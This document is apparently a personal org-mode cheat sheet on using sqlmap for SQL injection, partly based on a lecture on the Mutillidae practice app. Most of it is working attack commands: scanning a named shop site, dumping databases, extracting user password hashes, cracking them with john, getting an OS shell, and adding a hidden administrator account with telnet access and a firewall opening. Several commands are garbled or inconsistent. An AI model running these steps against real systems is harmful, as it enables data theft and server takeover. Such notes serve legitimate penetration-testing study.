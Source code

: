 #+TAGS: sec db sqli


* SQLmap							:sec:db:sqli:
* Description
This tool sutomates sqlinjections
* Usage
** Basic Syntax

> sqlmap <option> <url>

- Initial Scan
#+BEGIN_SRC sh
sqlmap -u giftshop.co.uk
#+END_SRC
This scan will attemp to find sql inject vulnerabilities, using preset
injection payloads. It will also attempt to find the OS, DBMS and web
server.

** Find Databases
#+BEGIN_SRC sh
sqlmap -u giftshop.co.uk --dbs
#+END_SRC
Now we know from the above scan that we have a vulnerable url, we need
to find the databases. This cmd will find the database names.

** Find Tables
#+BEGIN_SRC sh
sqlmap -u giftshop.co.uk --tables -D cutomers_uk
#+END_SRC
This will output the tables of the requested database.

** Find Columns
#+BEGIN_SRC sh
sqlmap -u giftshop.co.uk --columns -D customer_uk -T first_name
#+END_SRC
This will output the columns of the specified table.

** Get data from a table
#+BEGIN_SRC sh
sqlmap -u <url> --dump -D <database\_name> -T <table\_name>
#+END_SRC
This will produce output very similar to mysqldump.

** More details
Tell sqlmap where to inject with *
#+BEGIN_SRC sh 
sqlmap -u http://www.domain.com/class\_name/method/40*/80
#+END_SRC

Sometimes sqlmap fails to connect this can be counted with
--random-agent. This will attempt to connect with a chrome or mozilla
signature.
#+BEGIN_SRC sh
sqlmap -u <url> --random-agent
#+END_SRC

* Lecture
** [[https://www.youtube.com/watch?v%3DvTB3Ze901pM][Introduction to SQLMap on Mutillidae]]
- use burp suite to intercept the POST to the website
- copy of of the out put that output in surp suite (the POST, cookies, url , username etc) and place it into a file.
- sqlmap will be able to parse this file and use it
#+BEGIN_SRC sh
sqlmap -r burp_suite.request --banner
#+END_SRC
This will attempt to grab the db banner

-- fingerprint
- This option is like banner+
- this provides patch levels and versions
  
- Finding User infomation
#+BEGIN_SRC sh
sqlmap -r burp_suite.request --current-user --current-db --hostname --is-dba
#+END_SRC
- kowing fi the user is a dba is very important
  
- Dump Users and Passwords
#+BEGIN_SRC sh
sqlmap -r burp_suite.request --users --passwords
#+END_SRC

- Dumping Databases
#+BEGIN_SRC sh
sqlmap -r burp_suite.request -D
#+END_SRC

- Dumping Tables
#+BEGIN_SRC sh
sqlmap -r burp_suite.request -T
#+END_SRC

+ Dumping the columns
#+BEGIN_SRC sh
sqlmap -r burp_suite.request -D mysql -T user --columns
#+END_SRC
or
#+BEGIN_SRC sh
sqlmap -r burp_suite.request -D mysql -T user --common-columns
#+END_SRC
if sqlmap gets a 302/303 decline, the redirect is taking you to login success or failure

+ Attempt to get user and password column contents
#+BEGIN_SRC sh
sqlmap -r burp_suite.request -D mysql -T user -C user,password
#+END_SRC
- Sometimes useful to use sort query if warning is thrown with the above
#+BEGIN_SRC sh
sqlmap -r burp_suite.request -D mysql -T user --sql-query='SELECT User, Password FROM mysql.user ORDER BY user Desc'
#+END_SRC
- With the output hashes put them into a file to fomat:
root:*FY192LLkSLFJKSJFS88408SFJ8CH
- then run john on the file 
#+BEGIN_SRC sh
john --format=mysql-sha1 hashes.txt
#+END_SRC
john can be interrupted and show hashes that have been cracked up to that point
#+BEGIN_SRC sh
john --format=mysql-sha1 hashes.txt --show
#+END_SRC

+ SQLmap OS Shell
#+BEGIN_SRC sh
sqlmap -r burp_suite.request -D mysql -T user --os-shell
#+END_SRC
- you will be asked what the underlying language is, a deault will be available
- also asks where the web files are hosted, again a deault is offered
- this uses sql to access the system
- though we are root on the db, we may not be root on the system to check on windows run:
#+BEGIN_SRC sh
sc query tlntsvr
#+END_SRC
- can now start the tlntsvr
#+BEGIN_SRC sh
sc start tlntsvr
#+END_SRC
- if this fails, due to the server being hardend, it will need to be reconfigured
#+BEGIN_SRC sh
sc config tlntsvr start= demand
sc status start tlntsvr
#+END_SRC
- the telnet server should now be up and running
- we don't have an account to login into telnet with, so lets create one
#+BEGIN_SRC sh
net user root toor /add
net localgroup TelnetClients /add
net localgroup TelnetClients root /add
net localgroup Administrators root /add
netsh firewall add portopening protcol=tcp port=23 name=telnet mode=enabled scope=custom addresses=192.168.56.101
#+END_SRC
- should now be able to telnet into the windows server

* Tutorial
* Books
* Links
